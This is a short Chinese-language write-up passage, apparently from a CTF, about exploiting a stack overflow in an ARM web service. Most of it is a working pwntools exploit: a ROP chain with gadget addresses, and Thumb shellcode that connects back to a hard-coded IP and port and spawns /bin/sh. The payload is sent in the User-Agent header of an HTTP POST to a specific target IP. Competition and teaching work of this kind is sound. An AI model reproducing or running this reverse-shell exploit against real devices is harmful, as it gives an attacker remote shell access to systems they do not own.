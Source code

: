 最后发现其实是没有`\x00`截断的

虽然在qemu用户模式模拟时栈地址是固定的，但是不知道在板子上是不是，没有回显也不好判断

于是采用ROP+shellcode的方法

由于输入是有长度限制的，在ROP拿到的栈地址处shellcode已经放不下了

所以思路是ROP获取栈上的可控地址并跳转到栈上，将shellcode布置在payload的前面并且让pc指针跳到前面去

exp：

```python
from pwn import *
import requests
context.arch='arm'
url = "http://20.21.2.27:59816/404.html"
#url = "http://127.0.0.1:59816/404.html"


sc =  b'\x01\x10\x8f\xe2'
sc += b'\x11\xff\x2f\xe1'
sc += b'\x02\x20'
sc += b'\x01\x21'
sc += b'\x92\x1a'
sc += b'\x0f\x02'
sc += b'\x19\x37'
sc += b'\x01\xdf'
sc += b'\x06\x1c'
sc += b'\x08\xa1'
sc += b'\x10\x22'
sc += b'\x02\x37'
sc += b'\x01\xdf'
sc += b'\x3f\x27'
sc += b'\x02\x21'
sc += b'\x30\x1c'
sc += b'\x01\xdf'
sc += b'\x01\x39'
sc += b'\xfb\xd5'
sc += b'\x05\xa0'
sc += b'\x92\x1a'
sc += b'\x05\xb4'
sc += b'\x69\x46'
sc += b'\x0b\x27'
sc += b'\x01\xdf'
sc += b'\xc0\x46'
sc += b'\x02\x00\x22\xb8\x14\x15\x02\x1a'
sc += '/bin/sh\x00'

bss = 0x8B3C0

pd =  '1'*0x3e8+sc+'a'*0x10
pd += p32(0x53EC8)
pd += p32(0)+p32(0)+p32(0)+p32(0)+p32(0x4DE84)+p32(bss)+p32(0)+p32(0x38200)
pd += p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0x2FE38)
pd += 'k'*4+'l'*4+'n'*4+'m'*4+'o'*4+'p'*4+'q'*4+'r'*4
pd += 'b'*4+'c'*4+'d'*4+'e'*4+'f'*4+'g'*4+'h'*4+asm('sub pc,pc,0xe0')+'a'*0x200

hd = {"Host": "192.168.51.196:59816","User-Agent":pd}
r = requests.post(url,headers=hd, verify=False, timeout=1000)

#0x53ec8 : pop {r4, r5, r6, r7, r8, sb, sl, pc}

#0x38200 : add r2, sp, #0x5c ; blx r8

#0x4DE84 : mov r0, sb ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
```